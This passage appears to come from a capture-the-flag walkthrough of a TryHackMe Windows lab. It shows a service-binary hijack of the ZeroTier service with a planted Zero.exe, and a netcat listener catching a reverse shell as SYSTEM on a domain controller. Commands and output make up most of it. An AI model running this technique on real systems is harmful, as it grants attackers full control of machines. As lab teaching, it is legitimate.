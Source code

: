 ```powershell
d-----        3/14/2021   6:08 PM                Zero Tier One                                                                        
-a----        2/23/2024   2:53 AM           7168 Zero.exe                                                                             


PS C:\Program Files (x86)\Zero Tier> sc.exe stop zerotieroneservice
sc.exe stop zerotieroneservice
[SC] ControlService FAILED 1062:

The service has not been started.

PS C:\Program Files (x86)\Zero Tier> sc.exe start zerotieroneservice
sc.exe start zerotieroneservice
```
{: .nolineno}
{: .nolineno}
Lets see the netcat listener now that captured the `nt authority\system` Shell ->
```powershell
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Enterprise]
└─$ rlwrap nc -lvnp 445 
listening on [any] 445 ...
connect to [10.14.72.139] from (UNKNOWN) [10.10.135.133] 50511
Microsoft Windows [Version 10.0.17763.1817]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
LAB-DC

C:\Windows\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7CD9-A0AE

 Directory of C:\Users\Administrator

03/11/2021  01:55 PM    <DIR>          .
03/11/2021  01:55 PM    <DIR>          ..
03/11/2021  05:47 PM    <DIR>          3D Objects
03/11/2021  05:47 PM    <DIR>          Contacts
03/14/2021  06:48 PM    <DIR>          Desktop
03/11/2021  06:14 PM    <DIR>          Documents
03/14/2021  05:05 PM    <DIR>          Downloads
03/11/2021  05:47 PM    <DIR>          Favorites
03/11/2021  05:47 PM    <DIR>          Links
03/11/2021  05:47 PM    <DIR>          Music
03/11/2021  05:47 PM    <DIR>          Pictures
03/11/2021  05:47 PM    <DIR>          Saved Games
03/11/2021  05:47 PM    <DIR>          Searches
03/11/2021  01:56 PM    <DIR>          Ubuntu
03/11/2021  05:47 PM    <DIR>          Videos
               0 File(s)              0 bytes
              15 Dir(s)  40,618,287,104 bytes free

C:\Users\Administrator>cd Desktop
```